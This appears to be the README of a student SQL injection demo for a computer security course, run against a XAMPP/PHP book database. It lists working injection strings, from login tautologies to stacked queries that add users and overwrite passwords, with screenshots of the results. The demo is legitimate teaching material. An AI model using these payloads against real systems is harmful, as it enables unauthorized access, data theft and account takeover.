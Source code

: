 # SQL-INJECTION-DEMO-
SQL INJECTION DEMO FOR CECS 378 INTRO TO COMPUTER SECUIRITY PRIVACY 

This demo shows how an SQL Injection attack is done. 

## Requirments 
- Uses XAMPP 

## Main Features
- Has a database that has three tables(Book, Staff, Users)
- SQL Database is used 
- PHP is used to connect the database
- Also has a feature to search up books by Book Title or by ISBN

SET UP FOR DATABASE
![Screen Shot 2021-11-28 at 1 18 05 AM](https://user-images.githubusercontent.com/48665751/143751884-d7d718b7-bdae-4dc2-a0a9-652603c3e113.png)

WHEN SIGNED IN WITH PROPER CREDENTIALS
![Screen Shot 2021-11-28 at 1 22 55 AM](https://user-images.githubusercontent.com/48665751/143755317-d65d1fdb-3198-43b7-bb38-2a39a6630ac1.png)

BOOK FINDER FEATURE 
![Screen Shot 2021-11-28 at 1 28 59 AM](https://user-images.githubusercontent.com/48665751/143759610-2f2e6464-b4f6-48d7-9a37-85a65a0be5fe.png)

WHEN USERS LOOK A BOOK UP
![Screen Shot 2021-11-28 at 1 31 16 AM](https://user-images.githubusercontent.com/48665751/143761220-2eb72be8-4612-4a00-8092-497f84e562bb.png)

WHEN SQL STATMENT <' OR '1'='1> IS USED IN THE LOGIN PAGE THIS RETURNS ALL USERS INFORMATION
![Screen Shot 2021-11-28 at 1 35 34 AM](https://user-images.githubusercontent.com/48665751/143762816-668523f8-5f62-41d8-aee9-7101ebed8059.png)

WHEN SQL STATEMENT <' or 1=1;--> IS USED IN BOOK FINDER FEATURE THIS RETURNS ALL THE BOOKS IN THE DATABASE
![Screen Shot 2021-11-28 at 1 40 50 AM](https://user-images.githubusercontent.com/48665751/143762953-6221ea48-dde2-4e11-9929-0b31cd12531c.png)

WHEN SQL STATMENT IS USED < ' OR '1'='1'; CREATE TABLE CUSTOMERS( ID INT NOT NULL, NAME VARCHAR (20) NOT NULL, AGE INT NOT NULL, ADDRESS CHAR (25) , SALARY DECIMAL (18, 2), PRIMARY KEY (ID) );-- > THIS CREATES A NEW TABLE IN THE DATABASE.
![Screen Shot 2021-11-28 at 2 18 48 AM](https://user-images.githubusercontent.com/48665751/143763964-fd82b85c-6430-4780-ba13-dca8f421a2a1.png) 

< ' OR '1'='1'; INSERT INTO Users(userName, password, firstName, lastName, memberID, phoneNumber, emailAddress, ISBN) values ('hackers','hacked','hacker-san','hacked','12345678','9996669999','hacker@gmail.com','190721');-- > THIS WILL ADD A USER TO USERS TABLE IN THE DATABASE.

![Screen Shot 2021-11-28 at 1 04 54 PM](https://user-images.githubusercontent.com/48665751/143785926-ae117fa2-26c2-4453-bd79-6d7b1a8b30d7.png)

< ' OR '1'='1'; UPDATE Users SET password = 'hacked3' WHERE userName = 'bravo360';-- > THIS WILL CHANGE THE PASSWORD OF USER "bravo360" to "hacked3". 
![Screen Shot 2021-11-28 at 1 17 09 PM](https://user-images.githubusercontent.com/48665751/143786291-125a5bec-53a8-42c0-a001-9a8bc0bf88a7.png)

< ' OR '1'='1'; UPDATE users SET password = 'hacked3';-- > THIS WILL SET All USERS PASSWORDS TO "hacked3".
![Screen Shot 2021-11-28 at 1 21 12 PM](https://user-images.githubusercontent.com/48665751/143786442-3e0a54de-9db7-4ed3-a427-309999f2ffd1.png)

< ' OR '1'='1'; UPDATE users SET userName = 'hacker' WHERE password = 'hacked3';-- > THIS WILL SET ALL THE USERS WITH WITH THE PASSOWRD "hacker3" USERNAMES TO "hacker" 
![Screen Shot 2021-11-28 at 3 57 50 PM](https://user-images.githubusercontent.com/48665751/143791555-cffe20f4-4419-49ee-be0a-1e31e16d50e1.png)





